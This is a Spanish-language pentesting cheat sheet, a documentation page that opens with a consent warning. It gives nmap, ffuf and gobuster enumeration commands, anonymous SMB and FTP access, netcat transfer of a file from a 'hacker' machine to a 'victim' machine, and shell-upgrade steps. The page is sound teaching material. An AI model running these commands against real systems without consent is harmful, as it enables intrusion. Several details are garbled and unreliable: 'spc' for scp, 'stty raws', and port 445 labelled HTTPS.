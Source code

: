 ```yaml
---
title: Pentesting 📕
layout: default
has_toc: false
nav_order: 1
parent:  Cheat Docs 🔰
---
```


# Pentesting  📕
---

{: .warning }
> Las herramientas presentes en este apartado son invasivas; **no** podemos utilizar estas técnicas sin el consentimiento o la aprobación por parte del objetivo.                     
>*Podemos emplearlas a nivel didáctico en plataformas como HacktheBox o TryHackme.*. 


**Pequeña guía sobre las herramientas básicas necesarias para el pentesting.**

## Puertos destacables 🔑
- 21 **(FTP)**  Posible acceso con login anónimo.

- 22 **(SSH)** Si obtenemos las credenciales podemos tener acceso al sistema a través de este servicio.

- 80 **(HTTP)** Servidor web - Enumeración de directorios y búsqueda de vulnerabilidades en el servidor web.

- 143 / 993 **(IMAP)** Ataques de fuerza bruta contra las credenciales del servidor de correo electrónico.

- 110 / 995 **(SSL)** Posibles ataques de fuerza bruta contra las credenciales del servidor POP3.

- 445 **(HTTPS)**: Enumeración de certificados SSL/TLS para revelar posibles debilidades en la configuración de seguridad del servidor.


# Escaneo de Red 💻

---

### Nmap
https://nmap.org/

Es una herramienta de escaneo de puertos y análisis de redes de código abierto que se utiliza para identificar hosts y servicios en una red

### Escaneo de Hosts:

`nmap -n -sn --reason --min-rate 2000 10.0.0.0/24 -oN hostDiscovery`

### Escaneo de Puertos:
`nmap -np- -Pn --min-rate 5000 -v 10.0.0.0 -oN tcpPort`

### Escaneo en dDtalle de un puerto:

`nmap -n -p21 -Pn -T5 10.0.0.0 -oN tcpPort21 -sVC`


# Herramientas para Servicios web 🕸️

---

## FFuF 
https://github.com/ffuf/ffuf
Herramienta de fuzzing de código abierto.


### Enumeración de URL:
`ffuf -u http://localhost:3000/FUZZ  -fc 404,403 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt`

### Enumeración de Archivos
`ffuf -u http://localhost:3000/FUZZ  -fc 404,403 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-words-lowercase.txt -e .php,.html,.txt`

### Enumeración de Subdominios
`ffuf -u http://FUZZ.localhost:3000/ -fc 404,403 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt`

---

## Gobuster 
https://github.com/OJ/gobuster

Herramienta de enumeración de directorios y subdominios.


### Enumeración de URL:
`gobuster -w /usr/share/wordlists/dirb/common.txt dir -u http://domain.com -x php,txt,html,cgi`

### Enumeración de Subdominios:
`gobuster dns -d http://domain.com -w wordlist.txt -i`

### Enumeración de Pantallas Ocultas:
`gobuster vhost -u http://domain.com -w wordlist.txt -v`


# Servicio SMB 🔑

---

Protocolo responsable de transferir datos entre un cliente y un servidor en redes de área local. 

### Enumeracion de recursos compartidos:
`smbclient -L 10.10.10.10 -N`

`rpcclient -U "" -N 10.10.10.10`

### Entrar con login anonimo:
`smbclient //10.10.212.43/Anonymous/`


# FTP 💻

---


### Entrar con usuario anónimo
`ftp 10.0.0.0 21 `

`#Name:anonymous
#Pass: -

# Transferencia de archivos 🗃️

---

## PYTHON

`python3 -m http.server 8000`

`python2 -m SimpleHTTPServer 8000`

`curl http://10.10.10.10/file.php`

## Netcat

### Maquina hacker
`nc -lvnp 4444 < file`

### Maquina Victima

`nc 10.10.10.10 4444 > file`

## SSH

### Archivo
`spc file.txt user@10.10.10.10:/path/`

### Carpeta
`spc -r user@10.10.10.10:/folder /path/folder/`


# Shell Upgrading 🐚

---

`script /dev/null -c bash` 

`cntrl+Z`

`stty raw -echo; fg`

`reset xterm`

`export SHELL=bash`

`export TERM=xterm`

`stty raws <filas> cols <columnas>`